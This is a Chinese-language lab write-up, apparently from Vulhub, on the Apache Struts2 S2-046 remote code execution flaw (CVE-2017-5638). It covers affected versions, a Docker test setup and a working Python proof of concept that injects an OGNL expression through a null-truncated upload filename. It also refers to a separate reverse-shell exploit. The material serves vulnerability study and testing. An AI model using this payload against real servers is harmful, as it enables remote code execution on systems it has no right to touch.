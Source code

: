 # Struts2 S2-046 远程代码执行漏洞 CVE-2017-5638

## 漏洞描述

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-046
- https://xz.aliyun.com/t/221

## 影响版本

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub执行以下命令启动s2-046测试环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

`233*233`已成功执行：

![image-20220302112052286](./images/202203021120362.png)

### 反弹shell

详情参考《Struts2 S2-045 远程代码执行漏洞 CVE-2017-5638》中的漏洞EXP。

